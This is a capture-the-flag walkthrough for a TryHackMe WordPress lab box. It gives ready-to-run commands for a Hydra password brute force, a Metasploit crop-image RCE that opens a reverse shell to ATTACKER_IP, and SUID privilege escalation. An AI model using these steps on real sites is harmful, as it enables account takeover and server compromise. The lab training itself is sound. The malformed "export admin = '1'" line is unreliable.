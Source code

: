 # [Blog](https://tryhackme.com/room/blog)

## Billy Joel made a Wordpress blog!

# Blog

## Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome! Enumerate this box and find the 2 flags that are hiding on it! Billy has some weird things going on his laptop. Can you maneuver around and get what you need? Or will you fall down the rabbit hole...

### root.txt

1. Add target to hosts file for proper domain resolution

```bash
echo '<TARGET_IP> blog.thm' >> /etc/hosts
```

2. Initial port scan to identify running services

```bash
nmap <TARGET_IP>
```

[SCREEN01]

3. Navigate to `http://blog.thm` and examine the WordPress site. Check for user enumeration via author pages
   - Found two WordPress users: `bjoel` and `kwheel`
   - Performed brute force attack against both account using Hydra
   - Successfully obtained credentials: `kwheel:cutiepie1`

```bash
hydra -l kwheel -P /root/Tools/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

[SCREEN03]

4. After gaining WordPress admin access with kwheel's credentials, exploit the WordPress Crop Image RCE vulnerability (CVE-2019-8943) to gain reverse shell access

```bash
msfconsole
use exploit/multi/http/wp_crop_rce
set LHOST <ATTACKER_IP>
set RHOST <TARGET_IP>
set USERNAME kwheel
set PASSWORD cutiepie1
exploit
```

5. Search for SUID binaries to discover a custom checker program that can be exploited for privilege escalation

```bash
find / -perm -u=s -type f 2>/dev/null
cd /var/www/wordpress
export admin = '1'
checker
```

6. Retrieve root flag

```bash
cat /root/root.txt
```

---

### user.txt

1. The user flag is located in an unusual location - mounted USB drive rather than the typical home directory

```bash
cat /home/bjoel/user.txt
cat /media/usb/user.txt
```

---

### Where was user.txt found?

1. The user.txt flag was discovered in `/media/usb/` directory

```bash
find / -type f -name 'user.txt' 2>/dev/null
```

---

### What CMS was Billy using?

### What version of the above CMS was being used?

1. Examining the source code of `http://blog.thm/wp-login.php` reveals version information in meta tags and resource URLs
   - **CMS:** WordPress
   - **Version:** 5.0

[SCREEN02]
